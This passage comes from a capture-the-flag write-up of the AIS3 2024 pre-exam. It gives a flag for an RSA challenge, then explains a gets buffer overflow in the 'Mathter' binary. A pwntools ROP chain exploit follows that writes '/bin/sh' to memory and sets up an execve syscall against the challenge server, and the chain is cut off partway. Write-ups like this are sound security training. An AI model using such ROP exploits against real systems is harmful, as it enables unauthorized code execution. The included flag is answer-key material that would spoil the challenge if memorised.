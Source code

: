 ![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/babyrsa-solve.png)

## Flag

`AIS3{NeverUseTheCryptographyLibraryImplementedYourSelf}`

# Mathter

## Vulnerability

在 ghidra 中看到可以透過 `gets` 來 buffer overflow，且 NX enable 所以要使用 rop chain

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/mather-vulnerability-1.png)

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/mather-vulnerability-2.png)

## Solve

```python
from pwn import *

p = remote("chals1.ais3.org", 50001)

# use ROPgadget to find gadgets
pop_rdi = 0x0000000000402540 # pop rdi ; ret
pop_rsi = 0x00000000004126a3 # pop rsi ; ret
pop_rax_rdx_rbx = 0x000000000047b916 # pop rax ; pop rdx ; pop rbx ; ret
mov = 0x0000000000419700 # mov qword ptr [rdx], rax ; ret
syscall = 0x00000000004013ea # syscall
# an empty address for writing "/bin/sh" string
bin_sh = 0x00000000004bc000

# go to goodbye function
p.sendline(b'q')

# build rop chain payload
payload = b"".join([
    # pad to rbp
    b'y',
    b'A' * 11,

    # write "/bin/sh"
    p64(pop_rax_rdx_rbx),
    b'/bin/sh\x00',
    p64(bin_sh),
    p64(0x0),
    p64(mov),

    # set rax to 0x3b for sys_execve syscall
    # set rdx to 0x00 for no envp[]
    p64(pop_rax_rdx_rbx),
    p64(0x3b),
    p64(0x0),
    p64(0x0),

    # set rdi to address of "/bin/sh" string for filename to execute
    p64(pop_rdi),
    p64(bin_sh),

    # set rsi to 0x00 for no argv[]
    p64(pop_rsi),
```